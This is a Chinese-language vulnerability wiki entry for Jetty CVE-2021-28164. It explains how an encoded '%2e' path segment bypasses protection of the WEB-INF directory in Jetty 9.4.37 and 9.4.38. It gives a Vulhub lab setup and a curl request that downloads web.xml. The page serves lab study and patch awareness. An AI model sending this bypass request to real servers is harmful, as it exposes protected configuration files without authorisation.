


# Jetty WEB-INF 敏感信息泄露漏洞 CVE-2021-28164

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：9.4.37/.38默认合规模式，受保护资源路径存在且外部可达
- 证据范围：9.4.37实验与9.4.39修复说明准确，和后续34429应区分。

### 已有来源支持的更正

- 官方影响9.4.37/.38、修复9.4.39及HTTP compliance临时缓解与本文主叙述相符

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 仅隐含9.4.37开始/9.4.39修复，可补显式影响9.4.37及9.4.38
- 缺临时RFC7230_NO_AMBIGUOUS_URIS配置说明
- curl示例硬编码LAN与your-ip可统一；截图未视检

### 核验来源

- https://github.com/jetty/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

Jetty 9.4.37引入对RFC3986的新实现，而URL编码的`.`字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过`%2e`来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039

## 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.37：

```shell
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以查看到一个example页面。


## 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：




使用`%2e/`来绕过限制下载web.xml：

```shell
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
